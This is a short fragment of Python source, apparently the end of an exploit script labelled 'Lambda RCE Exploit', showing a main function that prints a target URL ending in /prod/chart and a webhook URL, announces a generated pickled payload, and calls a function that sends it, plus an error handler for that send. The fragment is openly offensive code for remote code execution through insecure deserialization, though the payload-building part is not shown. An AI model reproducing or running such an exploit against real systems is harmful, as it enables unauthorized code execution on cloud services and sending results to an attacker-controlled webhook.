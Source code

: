 ```python
    except Exception as e:
        print(f"[-] Error sending payload: {str(e)}")

def main():
    print("[*] Starting Lambda RCE Exploit")
    print(f"[*] Target URL: {base_url}/prod/chart")
    print(f"[*] Webhook URL: {WEBHOOK_URL}")
    print("[*] Generated pickled payload")

    # Send the payload
    send_pickled_payload()
if __name__ == "__main__":
    main()
```

